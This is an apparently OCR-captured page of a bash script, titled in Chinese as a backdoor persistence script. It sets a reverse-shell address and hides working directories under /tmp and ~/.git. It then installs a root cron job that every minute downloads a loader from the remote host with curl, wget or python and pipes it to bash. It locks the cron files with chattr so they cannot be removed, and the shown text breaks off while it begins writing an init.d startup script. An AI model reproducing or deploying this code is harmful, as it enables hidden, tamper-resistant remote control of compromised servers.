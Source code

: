# 2 后门维持脚本

```bash
#!/bin/bash
#reverse shell address
domain=192.168.1.31
#payload名称
payload=hello
#加载脚本名称
loader=loader
#启动脚本路径
loadup=/etc/init.d/loader
#workerdir
gitdir=./.git
mkdir -p /tmp/.a/.b/.c/
tmp=/tmp/.a/.b/.c
#当前进程数量
workerdir(){
  #已经建立的链接数量
  num=`netstat -antup|grep $domain |grep ESTABLISHED|wc -l`
  #能否访问domain获取http请求状态码
  trigger=`curl -I -m 10 -o /dev/null -s -w %{http_code}  http://$domain/`
  if [[ $num -lt 1 && $trigger -eq 200 ]];then
  #初始化工作目录
    if [ ! -d ~/.git ]; then 
      mkdir ~/.git
    fi
    if [ ! -d ./.git ]; then
      mkdir ./.git
    fi
 
    if [ -d ~/.git ]; then
      gitdir=~/.git
    fi
    if [ -d ./.git ]; then
      gitdir=./.git
    fi
  fi
}


createcron(){
    #添加计划任务
    cron=`grep $domain /etc/cron.d/root|wc -l`
    #判断句计划任务是否存在
    if [[ ! -f /etc/cron.d/root || cron -eq 0 ]]; then 
      chattr -i -a /etc/cron.d
      chattr -i -a /etc/cron.d/root
      #写入计划任务
      #-s表示不输出统计信息 -S表示输出错误信息需要配合-s使用 -L跟随重定向 -f 连接失败时不显示http错误
      echo "*/1 * * * * root (curl -fsSL http://$domain/$loader || wget -q -O- http://$domain/$loader || python -c 'import urllib2 as fbi;print fbi.urlopen("http://$domain/$loader").read()')| bash -sh > /dev/null 2>&1 &" >/etc/cron.d/root
      #添加ia权限 i权限表示不能修改文件，a权限仅允许增加内容不允许减少。
      chattr +i +a /etc/cron.d/root
      chattr +i +a /etc/cron.d
    fi
}

createinit(){
    #添加开机启动脚本 domain loader手工替换
    if [ ! -f $loadup ];then
tee $loadup << 'EOF'
```